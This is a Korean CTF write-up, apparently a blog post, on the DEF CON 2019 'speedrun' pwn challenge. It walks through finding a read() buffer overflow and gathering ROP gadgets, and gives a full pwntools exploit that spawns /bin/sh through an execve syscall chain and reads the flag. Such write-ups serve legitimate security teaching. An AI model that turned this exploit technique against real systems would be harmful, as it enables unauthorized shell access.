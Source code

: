 ```yaml
---
layout: post
title: "[DEFCONCTF 2019] Speedrun"
comments : true
excerpt_separator: <!--more-->
tags :
  - sang-gamja
  - volga ctf
---
```


2019년 데프콘 CTF 스피드런 문제를 리뷰 해보도록 하겠습니다.

우선 우리는 문제를 실행시켜 보겠습니다.
![]({{ site.baseurl }}/images/gamja/speed1/1.JPG)

이렇게 실행되어지는 문제이고 이것을 분석하기 위하여 IDA를 사용하여 열어보면 굉장히 큰 바이너리로 이루어 진 것을 알 수 있습니다.
![]({{ site.baseurl }}/images/gamja/speed1/2.JPG)
![]({{ site.baseurl }}/images/gamja/speed1/3.JPG)
하지만 우리는 실행시켰을 때 알아낸 문자열을 통하여 실행 부분을 찾을수 있습니다.
![]({{ site.baseurl }}/images/gamja/speed1/4.JPG)
이렇게 찾게되고 그것의 main함수 까지 알아 냅니다.
![]({{ site.baseurl }}/images/gamja/speed1/3.JPG)
이때 우리는 buf의 크기보다 더 많은 양을 넣을 수 있는 read 함수를 찾을 수 있습니다.
따라서 우리는 overflow가 된다는 것을 알 수 있습니다.
우선 우리는 보호기법을 체크해줍니다.
![]({{ site.baseurl }}/images/gamja/speed1/5.JPG)
그러면 PIE가 걸려있지 않기 때문에 IDA에서 본 주소와 동일하게 사용가능한 것을 알 수 있습니다.

![]({{ site.baseurl }}/images/gamja/speed1/6.JPG)
그렇기에 우리는 read 양만큼의 A 문자를 넣어보면 무리 없이 들어간 다는 것을 알 수 있습니다.
따라서 우리는 SROP를 통한 익스 플로잇 코드를 작성해야 한다는 것을 알 수 있습니다.

![]({{ site.baseurl }}/images/gamja/speed1/7.JPG)
그렇기에 우리는 rop 명령어를 통한 가젯들을 수집합니다. (pop rdi, pop rsi, pop rdx, pop rax, syscall)
그리고 우리는 처음 /bin/sh 문자열을 넣을 위치를 정하여야 합니다.
![]({{ site.baseurl }}/images/gamja/speed1/8.JPG)
따라서 elfheader 명령어를 통한 bss 영역의 주소를 알아낼 수 있습니다.
그 후 우리는 bss영역에 read함수를 이용하여 /bin/sh 문자열을 대입하고 execve 함수를 통하여 /bin/sh 를 실행하는 코드를 작성합니다.
```
from pwn import *

p = remote("speedrun-001.quals2019.oooverflow.io", 31337)

def dd(payload):
	p.recvuntil('Any last words?')
	p.sendline(payload)

syscall = 0x474e65
pop_rax = 0x415664
pop_rdi = 0x400686
pop_rsi = 0x4101f3
pop_rdx = 0x4498b5
main_addr = 0x400BC1

bss = 0x006bc000-0x100


payload = 'A'*0x400
payload += p64(bss - 0x100)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bss)
payload += p64(pop_rdx) + p64(8)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)
payload += p64(main_addr)

dd(payload)

p.send('/bin/sh\x00')


payload = 'A' * 0x400
payload += p64(0xdeadbeef)
payload += p64(pop_rdi) + p64(bss)
payload += p64(pop_rsi)+ p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)
payload += p64(main_addr)

dd(payload)
p.recvuntil("A"*0x400)
p.sendline("/bin/sh;")
p.sendline("cat flag")

p.interactive()

```

![]({{ site.baseurl }}/images/gamja/speed1/9.JPG)
작성한 코드를 실행시킨다면 우리는 flag를 획득할 수 있습니다.


